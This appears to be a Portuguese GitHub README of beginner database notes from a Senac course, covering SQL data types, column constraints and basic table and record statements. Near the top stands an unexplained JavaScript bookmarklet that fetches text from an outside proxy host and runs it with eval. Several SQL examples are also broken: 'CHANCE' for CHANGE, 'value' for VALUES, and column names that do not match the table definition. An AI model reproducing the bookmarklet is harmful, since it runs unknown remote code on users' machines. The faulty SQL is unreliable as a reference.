 # Banco de Dados - Senac

    javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);


## **Categorias de BD**

Os bancos de dados podem ser categorizados de várias maneiras, sendo que uma das principais delas aponta para a sua arquitetura, a qual pode ser centralizada, descentralizada, distribuída e replicada.

## **Tipagens de Dados mais utilizados**

`int` - númerico inteiro

`char` ou `varchar` - string (letras e números)

`decimal` - número com casa (bom para valores em reais)

`float` ou `double` - númerico com casas decimais

`date` - data

`datetime` - data e hora

`bool` - valor lógico (sim/não)

`bolean` - verdadeiro ou falso

---

### 1. `IDENTITY`
- **Função**: É utilizado para criar uma coluna que gera automaticamente um valor exclusivo para cada nova linha inserida. Isso é comum em colunas que funcionam como chaves primárias.
- **Exemplo**: `id_usuario INT PRIMARY KEY IDENTITY(1,1)` significa que `id_usuario` é uma coluna do tipo inteiro que será incrementada automaticamente a cada nova inserção, começando em 1.

### 2. `NOT NULL`
- **Função**: Esta restrição garante que uma coluna não pode ter valores nulos. Em outras palavras, é obrigatório fornecer um valor para essa coluna ao inserir uma nova linha.
- **Exemplo**: `nome VARCHAR(100) NOT NULL` significa que a coluna `nome` não pode ser deixada em branco; um valor deve ser fornecido.

### 3. `UNIQUE`
- **Função**: Garante que todos os valores em uma coluna sejam diferentes entre si. Isso impede a duplicação de dados nessa coluna.
- **Exemplo**: `email VARCHAR(100) UNIQUE NOT NULL` significa que o valor do `email` deve ser exclusivo para cada registro, e não pode ser nulo.

### 4. `DEFAULT`
- **Função**: Define um valor padrão que será atribuído a uma coluna quando uma nova linha é inserida e nenhum valor explícito for fornecido para essa coluna.
- **Exemplo**: `criado_em DATETIME DEFAULT GETDATE()` significa que, se nenhum valor for fornecido para `criado_em`, a data e hora atuais serão usadas como padrão.

### 5. `REFERENCES`
- **Função**: É utilizado para estabelecer uma relação entre duas tabelas, criando uma chave estrangeira. A coluna que possui a cláusula `REFERENCES` refere-se à coluna de chave primária em outra tabela.
- **Exemplo**: `FOREIGN KEY (id_usuario) REFERENCES Usuarios(id_usuario)` significa que a coluna `id_usuario` na tabela atual deve corresponder a um valor existente na coluna `id_usuario` da tabela `Usuarios`. Isso ajuda a garantir a integridade referencial entre as tabelas.

### Resumo
Essas cláusulas ajudam a garantir a integridade e a estrutura do banco de dados, evitando dados duplicados, nulos ou inconsistentes, e facilitando o gerenciamento e a relação entre diferentes tabelas.

---

```sql
CREATE TABLE alunos (
id_aluno INT,
nome VARCHAR(50),
nascimento DATE,
endereco VARCHAR(80),
email VARCHAR(100),
celular VARCHAR(25),
mensalidade DECIMAL,
PRIMARY KEY (id_aluno)
)
Execute

ALTER TABLE alunos CHANCE id_aluno 'id_aluno'
INT(11) NOT NULL AUTO_INCREMENT;
Execute // aqui o campo id_aluno será auto incremental
```

Para incluír um registro em uma tabela:

insert into alunos (nome, nascimento, endereço, mensalidade, email, celular) value ('Francisco Alves', '1980-12-10', 'Rua tito, 800', '450', 'chico@gmail.com', '11987654321')

Para alterar:
update alunos set mensalidade='500', celular='11987654321'
  where id_aluno = 1

Para excluír:
delete from alunos where id_alunos = 1

Para consultar:
select * from alunos where mensalidade > 300

